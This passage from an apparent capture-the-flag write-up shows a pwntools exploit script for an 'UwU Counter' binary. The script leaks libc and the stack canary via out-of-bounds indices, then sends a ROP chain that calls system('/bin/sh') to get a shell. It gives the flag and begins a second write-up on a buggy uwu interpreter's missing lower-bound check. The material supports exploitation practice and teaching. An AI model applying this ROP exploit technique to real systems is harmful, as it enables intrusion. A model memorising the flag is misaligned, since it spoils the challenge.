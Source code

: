 part of exp.py

```
io = start()

io.sendlineafter(b"Index: ", b"47")
io.recvuntil(b"This UwU'er has UwU'ed ")
libc.address = int(io.recvuntil(b" times!\n", drop=True)) - libc.libc_start_main_return

io.sendlineafter(b"Index: ", b"43")
io.recvuntil(b"This UwU'er has UwU'ed ")
canary = int(io.recvuntil(b" times!\n", drop=True))

io.sendlineafter(b"Index: ", b"-1")

rop = ROP(libc)

payload = flat({
    0x108: canary,
    0x110 + 0x8: [
        rop.find_gadget(["ret"])[0],
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh\x00")),
        libc.sym['system'],
        ],
    })

io.sendlineafter(b"Thanks for using my UwU Counter! What did you think?\n", payload)

io.interactive()
```

**flag**: maple{f1y_m3_t0_th3_m00n_4nd_l3t_m3_pl4y_am0ngu5}


## uwu intewpwetew

a very fun problem. it implement a buggy interpreter of uwu language - [uwu](https://esolangs.org/wiki/UwU)

[uwu-intewpwetew.c](./uploads/uwu-intewpwetew.c)

all the mitigation protection has open as expected
```
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
```

lets take look at some bugs, firstly, it check the upper bound, but not lower bound. We can see here the pointer is never gonna large than `DATA_LEN` if it is negative. 

This allow us to read the value above the stack variable
